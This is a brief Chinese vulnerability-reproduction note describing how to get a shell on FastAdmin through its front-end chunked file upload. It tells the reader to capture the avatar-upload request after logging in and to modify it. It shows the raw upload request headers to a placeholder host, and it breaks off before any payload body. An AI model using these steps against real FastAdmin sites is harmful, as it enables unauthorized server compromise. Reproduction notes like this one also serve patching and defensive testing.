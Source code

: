 登陆后在个人资料头像处抓包并上传dog.jpg

![](FastAdmin%E5%89%8D%E5%8F%B0%E5%88%86%E7%89%87%E4%BC%A0%E8%BE%93%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6getshell%E5%A4%8D%E7%8E%B0/3_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

更改上传数据包（需要注意图中几处红框的内容）  
 

![](FastAdmin%E5%89%8D%E5%8F%B0%E5%88%86%E7%89%87%E4%BC%A0%E8%BE%93%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6getshell%E5%A4%8D%E7%8E%B0/4_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

    POST /index/ajax/upload HTTP/1.1
    Host: test.test
    Content-Length: 418
    Accept: application/json
    Cache-Control: no-cache
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryurpjX18wIurjSyEp
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: PHPSESSID=rn1k8an9su59qb7ghosafer4vg; think_var=zh-cn; uid=2; token=aad3aa1e-1c65-4ee4-989a-bb3a82a4dd4a
    Connection: close
    